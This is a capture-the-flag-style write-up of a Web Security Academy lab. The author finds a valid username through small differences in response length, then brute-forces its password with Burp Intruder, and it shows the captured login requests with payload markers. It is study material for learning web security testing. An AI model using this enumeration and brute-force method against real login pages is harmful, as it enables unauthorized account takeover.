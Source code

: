 Greeted with a page filled with blog posts. 

I tried to see if the names under each blog post could be a valid username by typing the name into the login page and checking the output : 

![[Screenshot 2024-04-30 at 4.32.55 PM.png]]
Hence, this means that we have to brute-force both the username and password. 

I captured the request from logging in and sent it to Burp Intruder, in order to modify the username parameter and brute-force the username first. 

```Burp 
POST /login HTTP/2
Host: 0a2400a6045b2cdb809358ed00da002b.web-security-academy.net
Cookie: session=qMCIykd10A4fYWKR2rDfAVfGm7jObRjN
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://0a2400a6045b2cdb809358ed00da002b.web-security-academy.net
Referer: https://0a2400a6045b2cdb809358ed00da002b.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

username=§wiener§&password=peter
```

Using the given username list, I input it into the payload list as shown : 

![[Screenshot 2024-04-30 at 4.50.37 PM.png]]
I commenced the output and received the following, where I noticed that the `Length` for username `ae` was 3250 as opposed to 3248 for the rest :
![[Screenshot 2024-04-30 at 4.52.13 PM.png]]

I then commenced my second sniper attack using Burp Intruder, so as to brute-force the password for user `ae`. 

```Burp 
POST /login HTTP/2
Host: 0a2400a6045b2cdb809358ed00da002b.web-security-academy.net
Cookie: session=qMCIykd10A4fYWKR2rDfAVfGm7jObRjN
User-Agent: Mozilla/5.0 (X11; Linux aarch64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://0a2400a6045b2cdb809358ed00da002b.web-security-academy.net
Referer: https://0a2400a6045b2cdb809358ed00da002b.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

username=ae&password=§peter§
```

![[Screenshot 2024-04-30 at 4.54.46 PM 2.png]]
I received the following, where I sorted the 'Length' in ascending order : 

![[Screenshot 2024-04-30 at 4.58.27 PM.png]]

Using the username `ae` and password `superman` I was able to successfully log into the account!

